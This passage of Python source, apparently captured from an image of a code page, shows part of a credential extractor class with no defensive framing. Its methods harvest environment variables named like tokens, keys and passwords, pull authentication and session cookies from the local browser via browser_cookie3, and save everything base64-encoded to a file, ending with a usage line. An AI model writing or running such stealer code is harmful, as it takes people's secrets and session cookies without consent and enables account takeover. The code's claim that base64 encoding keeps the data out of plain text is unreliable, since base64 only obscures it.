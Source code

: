```python

        for cred_type, pattern in self.patterns.items():
            matches = re.findall(pattern, text, re.IGNORECASE)
            if matches:
                results[cred_type] = matches

        return results

    def extract_from_environment(self):
        """Extract credentials from environment variables"""
        import os
        env_vars = os.environ
        results = {}

        # Check each environment variable
        for var_name, var_value in env_vars.items():
            # Check if variable name suggests it's a credential
            for cred_type, pattern in self.patterns.items():
                if re.search(r'(?:token|key|secret|password|credential)', var_name, re.IGNORECASE):
                    if re.search(pattern, var_value, re.IGNORECASE):
                        if cred_type not in results:
                            results[cred_type] = []
                        results[cred_type].append((var_name, var_value))

        return results

    def extract_from_browser(self):
        """Extract credentials from browser storage"""
        try:
            import browser_cookie3
            cookies = browser_cookie3.load()

            results = {
                "cookies": []
            }

            for cookie in cookies:
                if re.search(r'(?:token|key|secret|auth|session|credential)', cookie.name, re.IGNORECASE):
                    results["cookies"].append({
                        "domain": cookie.domain,
                        "name": cookie.name,
                        "value": cookie.value
                    })

            return results
        except Exception as e:
            print(f"Browser extraction error: {e}")
            return {}

    def store_credentials(self, credentials, output_file="credentials.enc"):
        """Store extracted credentials with basic encoding"""
        # Simple encoding to avoid plain text storage
        encoded = base64.b64encode(json.dumps(credentials).encode()).decode()

        with open(output_file, "w") as f:
            f.write(encoded)

        print(f"Credentials stored in {output_file}")

# Usage example
extractor = CredentialExtractor()

```